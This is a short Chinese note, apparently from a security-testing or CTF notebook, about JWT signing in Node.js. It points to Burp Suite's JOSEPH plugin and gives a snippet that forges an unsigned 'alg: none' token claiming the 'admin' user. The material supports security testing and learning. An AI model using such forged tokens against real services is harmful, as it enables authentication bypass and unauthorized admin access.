 nodejs中的jwt库在签名时用algorithm指定算法，而在验签时用algorithms指定算法
在测试jwt相关的安全问题时可以使用burpsuite的JOSEPH插件辅助测试

```ts
// https://www.secpulse.com/archives/129304.html
// https://blog.csdn.net/miuzzx/article/details/127744431#t1
const jwt = require('jsonwebtoken');

var payload = {
    secretid: [],
    username: 'admin',
}
var token = jwt.sign(payload, undefined, {algorithm: 'none'});
console.log(token);
```
